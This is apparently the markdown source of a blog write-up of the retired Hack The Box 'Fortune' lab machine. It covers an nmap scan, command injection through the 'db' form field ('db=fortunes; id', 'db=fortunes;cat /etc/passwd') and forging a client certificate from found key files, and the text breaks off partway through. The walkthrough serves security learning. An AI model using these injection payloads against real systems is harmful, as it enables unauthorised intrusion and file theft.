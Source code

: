 ```yaml
---
layout: post
title:  "Hack The Box: 'Fortune' Writeup"
image: ''
date:   2019-08-05 00:09:53
tags:
- hackthebox
- pkcs12 certificate
- RCE
- nfs share
- pgadmin4
- sqlite3
- crypto

description: ''
categories:
- Hack The Box
---
```


<style>
applause-button {
		margin: auto;
	}

	.header-site .site-title {
      	padding-top: 5px;
      	color: white;
      	text-align: center;
      	font-weight: bold;
      	padding-left: 19px;
	}
	
	.fortune-img {
		max-width: 75%;
	}

	.post-content img { 
		margin: 1.875rem auto;
		display: block;
	}
</style>
  <!-- add the button style & script -->
  <link rel="stylesheet" href="/assets/css/applause-button.css" />
  <script src="/assets/js/applause-button.js"></script>

<img src="/assets/img/writeups/HTB-FORTUNE/HTB-FORTUNE-BADGE.PNG" class="fortune-img" alt="Hack The Box - Fortune">

<p><br></p>
### TL;DR 
There might not necessarily be anything "new" in this box if you've done all of the previous ones, but it's my absolute personal favorite. Thank you so much <a href="https://www.hackthebox.eu/home/users/profile/46317">AuxSarge</a> for creating it. I was so sad when it retired! 😢
<p><br></p>

### Overview

The `Fortune` machine on Hack The Box (created by <a href="https://www.hackthebox.eu/home/users/profile/46317">AuxSarge</a>) is a retired 50 point OpenBSD machine with some pretty interesting parts to it. If you have completed all of the previous boxes on Hack The Box, then `Fortune` should be pretty simple, as there is nothing particularly new introduced.
<p><br></p>

The box starts with simple web enumeration to locate RCE found in the site's `db` variable, which occurs when a semi colon (;) is appended to the end of the `db`. Next, some files are located via the RCE that can be used to create a PKCS12 certificate which permits access to port 443. From there, an SSH key is located to access the user called `nfsuser` and escalate to the user `charlie` by mounting a newly found nfs share and using `su` to access `charlie` with a local user that has the same UID. SSH keys for `charlie` are then used to access the user via SSH and enumerate further.
<p><br></p>

Finally, there is a `pgadmin4` database running on the box which contains hashes for the root password. A file called `crypto.py` is utilized for `pgadmin4's` encoding/decoding process, and can be used here to decode the root password and ultimately grab the flag.
<p><br></p>

### Nmap Scan

<div class="highlighter-rouge"><div class="highlight"><pre class="highlight"><code>root@rattLR:~/HTB-FORTUNE# nmap -sC -sV -A -Pn 10.10.10.127

Starting Nmap 7.70 ( https://nmap.org ) at 2019-07-24 11:27 EST
Nmap scan report for 10.10.10.127
Host is up (0.21s latency).
Not shown: 997 closed ports
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 7.9 (protocol 2.0)
| ssh-hostkey: 
|   2048 07:ca:21:f4:e0:d2:c6:9e:a8:f7:61:df:d7:ef:b1:f4 (RSA)
|   256 30:4b:25:47:17:84:af:60:e2:80:20:9d:fd:86:88:46 (ECDSA)
|_  256 93:56:4a:ee:87:9d:f6:5b:f9:d9:25:a6:d8:e0:08:7e (EdDSA)
80/tcp  open  http       syn-ack OpenBSD httpd
| http-methods: 
|_  Supported Methods: GET HEAD
|_http-server-header: OpenBSD httpd
|_http-title: Fortune
443/tcp open  ssl/https? syn-ack
|_ssl-date: TLS randomness does not represent time
</code></pre></div></div>

So, it appears port `443` is HTTPS (as expected), but it requires an SSL certificate to access it. I'll leave it alone for now because of this. However, port `80` proves to be quite interesting.
<p><br></p>

### Web Enumeration

Here's what I discovered upon navigating to `http://10.10.10.127/` in my browser:

<img src="/assets/img/writeups/HTB-FORTUNE/fortune-homepage.PNG" class="fortune-img" alt="Hack The Box - Fortune Homepage">

Hmm... 

Let's try capturing a request with `Burp Suite`!

```
POST /select HTTP/1.1
Host: 10.10.10.127
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:60.0) Gecko/20100101 Firefox/60.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://10.10.10.127/
Content-Type: application/x-www-form-urlencoded
Content-Length: 10
DNT: 1
Connection: close
Upgrade-Insecure-Requests: 1

db=fortunes
```

The `db` variable looks pretty spicy! 🌶️

After running `wfuzz`, I discovered I could append a semi colon (;) to `db` and execute commands on the box, like so:

```
POST /select HTTP/1.1
Host: 10.10.10.127
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:60.0) Gecko/20100101 Firefox/60.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://10.10.10.127/
Content-Type: application/x-www-form-urlencoded
Content-Length: 10
DNT: 1
Connection: close
Upgrade-Insecure-Requests: 1

db=fortunes; id
```

And the response:
```
HTTP/1.1 200 OK
Connection: close
Content-Type: text/html; charset=utf-8
Date: Wed, 24 Jul 2019 12:27:19
<!DOCTYPE html>
<html>
<head>
<title>Your fortune</title>
<meta name='viewport' content='width=device-width, initial-scale=1'>
<meta http-equiv="X-UA-Compatible" content="IE=edge">
</head>
<body>
<h2>Your fortune is:</h2>
<p><pre>

uid=512(_fortune) gid=512(_fortune) groups=512(_fortune)


</pre><p>
<p>Try <a href='/'>again</a>!</p>
</body>
```

Nice! We have code execution. Let's have a look around to see what else we can find. 
<p><br></p>

### File Enumeration & NFS Share Access

(Shortened output for readability):

```
db=fortunes;cat /etc/passwd

charlie:*:1000:1000:Charlie:/home/charlie:/bin/ksh
bob:*:1001:1001::/home/bob:/bin/ksh
nfsuser:*:1002:1002::/home/nfsuser:/usr/sbin/authpf
```

Well, well, well... It would appear we have three different users here. They are `charlie`, `bob`, and `nfsuser`. Immediately, `nfsuser` appears interesting to me given the naming convention. The username `nfsuser` can easily be attributed to an `nfs share`! Now, this is great and all, but I still don't know how to access these users, nor am I able to add my own `ssh` keys... I was able to `ping` myself at this point, but couldn't manage to get a shell back.
<p><br></p>

However, I did some snooping around and discovered some files in the user `bob`'s home directory (`/home/bob`). There was one cert file (`intermediate.cert.pem`) and one key file (`intermediate.key.pem`), which can be converted to a PKCS12 certificate. I used `openssl` to create the certificate, like so:

```
openssl pkcs12 -export -out fortune.htb.p12 -in intermediate.cert.pem -inkey intermediate.key.pem
```
I was then able to import the certificate with Firefox and access the (now unrestricted) `HTTPS` port, `443`.

The `HTTPS` homepage displayed this message upon my first visit:

<div class="highlighter-rouge"><div class="highlight"><pre class="highlight"><code>You will need to use the local authpf service to obtain elevated network access. 
If you do not already have the appropriate SSH key pair, then you will need 
to <a href="https://10.10.10.127/generate">generate</a> one and configure your local system appropriately to proceed.
</code></pre></div></div>

I clicked on `generate` and it redirected me to a page that looked like this:

<div align="center">
	<h3> Thanks for reading! </h3>
</div>
<div align="center">
<!-- add the button! -->
<applause-button style="width: 58px; height: 58px;" color="#5d4d7a"/>
</div>
<div align="center">
	<a href="https://www.hackthebox.eu/profile/39047">
		<img htb-logo="image" src="https://www.hackthebox.eu/badge/image/39047" alt="Hack The Box">
	</a>
</div>